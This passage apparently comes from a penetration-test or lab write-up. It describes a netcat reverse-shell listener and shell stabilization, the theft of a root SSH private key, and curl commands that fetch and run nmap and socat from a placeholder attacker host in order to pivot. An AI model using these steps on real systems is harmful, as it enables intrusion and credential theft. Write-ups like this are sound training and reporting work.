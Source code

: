 ```
prod-serv
#
```

Since this access was with root user, it was not necessary to escalate privilege to root. This access allows us to see the configuration of the server and scan other hosts in this network.

After gaining this access, it was possible to create a reverse shell with the following command:

```
nc -lvnp 5556

# to stabilize this shell, the following commands were executed
python3 -c 'import pty;pty.spawn("/bin/bash")' 
export TERM=xterm
```

The result is a stabilized shell as shown above:

![Result](Screenshot_2023-09-05_21-23-15.png)

Accessing the folder */root/.ssh/id_rsa*, it was possible to access the private key to access the server through ssh and transfer it to the attacking machine.

## Pivoting the webservers
With the access to server where the website is hosted, it is possible to perform another enumeration to discover what other endepoints exists withing the internal network.

Our access allowed us also to transfer files between the our attacking machine and the compromised webserver. We used the following commands to transfer files:

```
# Create a webserver on the attacking machine where the binaries are being hosted:
sudo python3 -m http.server 80

# From the comprimised server, we then fechted the desired files, in this case nmap and socat
curl ATTACKING_IP/path/to/file -o /tmp/path/to/file && chmod +x /tmp/path/to/file

curl ATTACKING_IP/nmap -o /tmp/nmap-pat && chmod +x /tmp/nmap-pat
curl 1ATTACKING_IP/socat -o /tmp/socat-pat && chmod +x /tmp/socat-pat
```
